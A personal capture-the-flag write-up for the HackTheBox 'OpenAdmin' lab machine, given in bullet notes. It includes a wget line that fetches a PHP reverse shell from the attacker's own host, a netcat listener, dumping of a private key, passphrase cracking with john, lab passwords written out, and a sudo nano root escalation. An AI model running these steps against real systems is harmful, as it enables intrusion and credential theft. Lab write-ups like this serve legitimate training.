 ```yaml
---
layout: post
title:  "HackTheBox OpenAdmin Writeup"
tags: 
  - htb
  - writeup 
---
```


# user
- Scan ports with nc -> http and ssh ports open
- /music yields a pre-prod page
	- contact page
	- login / create account leads to an ONA dashboard
- /artwork yields a different company's site
	- similar to the music guy
	- rabbit hole with nothing useful
- Can use RCE exploit from internet to gain reverse sorta shell from ONA (ona specific exploit)
- Can use this half-shell to escalate to a full shell
- Friend I consulted's go-to is that most boxes have wget, curl or netcat -> can transfer file rom http to server
	- python SimpleHTTPServer
	- netcat 4444 -> listen for requests
	- make php script correct ports
		- mkdir www
		- cd www
		- cp path/to/php/rev/shell
		- python -m SimpleHTTPServer
		- wget http://your.ip.address:portrev/_shell.php (on the half rev. shell)
- Now you a full reverse shell
- Python3 spawn pty bash for better experience
- Database config file found in local/config with DB user and pass
- That password allows access to jimmy thru ssh
- Pass for jimmy is n1nj4W4rri0R!
- Use sftp to transfer linpeas (escalation scanner) onto jimmy's home dir
- ./linpeas.sh > output.txt and then less -R output.txt to see linpeas output
- /var/www/internal has really interesting writeable files that seem to allow access into Joanna's id_rsa
- ssh tunnel local forward the contents of that folder so that it's accessible to web
    - access w/ ssh openadmin -> localhost:2331/index.php
- Edit php to cat out joanna's private key
- Crack keyphrase using ssh2john -> john
- Bam, ssh into the target as joanna with new key (keyphrase is bloodninjas)
- User pwned
 
# root
- sudo -l 
- Can run nano on /opt/priv with nopasswd
- Execute a shell from within nano using a GTFOBins as root
- Root pwned
